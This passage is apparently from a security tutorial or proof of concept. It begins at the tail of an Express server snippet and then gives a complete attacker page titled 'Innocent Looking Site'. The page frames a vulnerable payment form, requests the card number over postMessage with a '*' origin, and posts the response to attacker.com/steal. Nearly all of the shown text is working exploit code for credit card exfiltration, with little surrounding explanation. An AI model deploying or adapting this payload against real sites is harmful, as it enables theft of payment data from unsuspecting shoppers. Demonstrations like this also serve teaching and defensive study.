 ```javascript
        </html>
    `);
});

app.listen(3000);
```

**Attacker's Site (attacker-steal.html)**
```html
<!DOCTYPE html>
<html>
<head>
    <title>Innocent Looking Site</title>
</head>
<body>
    <h1>Complete Your Order</h1>
    <p>Please enter payment details in the form below:</p>
    
    <!-- Embedded vulnerable site -->
    <iframe id="paymentFrame" 
            src="http://localhost:3000" 
            width="600" 
            height="300"></iframe>
    
    <script>
        window.addEventListener('load', function() {
            // Wait for user to enter card details
            setTimeout(function() {
                const iframe = document.getElementById('paymentFrame');
                
                // Request credit card data
                iframe.contentWindow.postMessage({
                    action: 'getCardNumber'
                }, '*');
                
                // Listen for response
                window.addEventListener('message', function(event) {
                    if (event.data.card) {
                        console.log('Stolen card:', event.data.card);
                        // Send to attacker's server
                        fetch('https://attacker.com/steal', {
                            method: 'POST',
                            body: JSON.stringify({ card: event.data.card })
                        });
                    }
                });
            }, 5000);
        });
    </script>
</body>
</html>
```
